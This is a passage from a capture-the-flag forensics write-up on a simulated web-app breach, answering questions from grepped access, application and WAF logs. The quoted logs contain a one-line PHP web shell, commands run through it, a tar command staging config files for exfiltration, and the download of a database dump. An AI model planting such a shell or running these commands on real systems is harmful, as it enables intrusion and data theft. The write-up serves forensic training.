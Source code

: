 
- Also accessed multiple times in `access.log`:  
```
➜  cat access.log| grep -i 'temp_4A4D'
2025-05-18 15:02:12 IP_REDACTED - - [18/May/2025:15:02:12 +0000] "GET /uploads/temp_4A4D.php?cmd=ls%20-la%20/var/www/html/uploads/ HTTP/1.1" 200 2048 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36"
2025-05-18 15:02:23 IP_REDACTED - - [18/May/2025:15:02:23 +0000] "GET /uploads/temp_4A4D.php?cmd=whoami HTTP/1.1" 200 256 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36"
2025-05-18 15:02:34 IP_REDACTED - - [18/May/2025:15:02:34 +0000] "GET /uploads/temp_4A4D.php?cmd=tar%20-czf%20/tmp/exfil_4A4D.tar.gz%20/var/www/html/config/%20/var/log/webapp/ HTTP/1.1" 200 128 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36"
```

- `application.log`:  
```
➜  cat application.log| grep -i 'temp_4A4D'
2025-05-15 11:25:01 [CRITICAL] webapp.api.v2.debug - Backdoor deployment initiated by IP_REDACTED - command: 'echo "<?php system($_GET[\"cmd\"]); ?>" > /var/www/html/uploads/temp_4A4D.php'
2025-05-15 11:25:12 [CRITICAL] webapp.api.v2.debug - Web shell created at /uploads/temp_4A4D.php by IP_REDACTED
2025-05-18 15:02:12 [CRITICAL] webapp.security - Web shell access detected - temp_4A4D.php executed by IP_REDACTED
```

---

## Q03 – What database file was exfiltrated?

**Answer**:  
`database_dump_4A4D.sql`

Made grep search and found out the database name in three log files.

**Log evidence**:  
```
➜  grep -ir database
./cogwork-intel-graph-1758546712870.json:      "description": "An advanced persistent threat targeting CogWork-1 Quantum Research Institute's temporal mechanics experiments, stealing classified research on dimensional physics. The attack manipulated quantum computing arrays and corrupted temporal calculation databases.",
./access.log:2025-05-01 08:25:23 IP_REDACTED - - [01/May/2025:08:25:23 +0000] "GET /database HTTP/1.1" 404 162 "-" "Lilnunc/4A4D - SpecterEye"
./access.log:2025-05-18 14:58:23 IP_REDACTED - - [18/May/2025:15:58:23 +0000] "GET /uploads/database_dump_4A4D.sql HTTP/1.1" 200 52428800 "-" "4A4D RetrieveR/1.0.0"
./application.log:2025-05-18 14:58:23 [CRITICAL] webapp.security - Database dump accessed - database_dump_4A4D.sql downloaded by IP_REDACTED
./application.log:2025-05-19 07:16:01 [CRITICAL] webapp.security - Database direct access via tunnel - MySQL connection from IP_REDACTED
./waf.log:2025-05-18 14:58:23 [CRITICAL] waf.exec - IP IP_REDACTED - Rule: DATABASE_DOWNLOAD - Action: BYPASS - Database file download: database_dump_4A4D.sql
./waf.log:2025-05-19 07:16:01 [CRITICAL] waf.exec - IP IP_REDACTED - Rule: DATABASE_TUNNEL - Action: BYPASS - Database access via SSH tunnel
```

---